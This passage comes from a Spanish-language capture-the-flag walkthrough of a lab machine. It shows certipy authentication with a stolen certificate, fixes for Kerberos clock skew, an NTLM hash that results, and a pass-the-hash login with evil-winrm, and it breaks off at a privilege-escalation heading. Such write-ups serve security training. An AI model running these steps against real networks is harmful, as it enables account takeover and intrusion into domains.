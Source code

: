 ### 7.5 Problema: Sincronización de Tiempo con Kerberos

```bash
# Intento 1: Autenticarse con el certificado
python3 certipy/entry.py auth -pfx 'ryan.k.pfx' -dc-ip '10.10.11.71'

# ERROR: KRB_AP_ERR_SKEW(Clock skew too great)
```

#### ¿Por qué ocurre este error?
Kerberos requiere que el reloj del cliente esté sincronizado con el servidor (diferencia máxima: 5 minutos).

### 7.6 Soluciones para la Sincronización de Tiempo

```bash
# Método 1: Ver la hora del DC
nmap -p 445 --script smb2-time 10.10.11.71 | grep date
# Output: date: 2025-09-18T03:37:44

# Método 2: Sincronizar manualmente
sudo date -s "18 SEP 2025 03:38:00"
# Luego intentar inmediatamente
python3 certipy/entry.py auth -pfx 'ryan.k.pfx' -dc-ip '10.10.11.71'

# Método 3: Usar faketime (ESTE FUNCIONÓ)
faketime '2025-09-18 03:50:00' python3 certipy/entry.py auth -pfx 'ryan.k.pfx' -dc-ip '10.10.11.71'

# Método 4: Cambiar zona horaria
sudo timedatectl set-timezone UTC
date
```

### 7.7 Autenticación Exitosa y Obtención del Hash

```bash
# Usando faketime
faketime '2025-09-18 03:50:00' python3 certipy/entry.py auth -pfx 'ryan.k.pfx' -dc-ip '10.10.11.71'

# Output exitoso:
# [*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6
```

### 7.8 Conexión como ryan.k

```bash
# Usar solo la parte del hash NTLM (después de los dos puntos)
evil-winrm -i 10.10.11.71 -u ryan.k -H b1bc3d70e70f4f36b1509a65ae1a2ae6
```

---

## 8. Escalación de Privilegios - ryan.k a Administrator
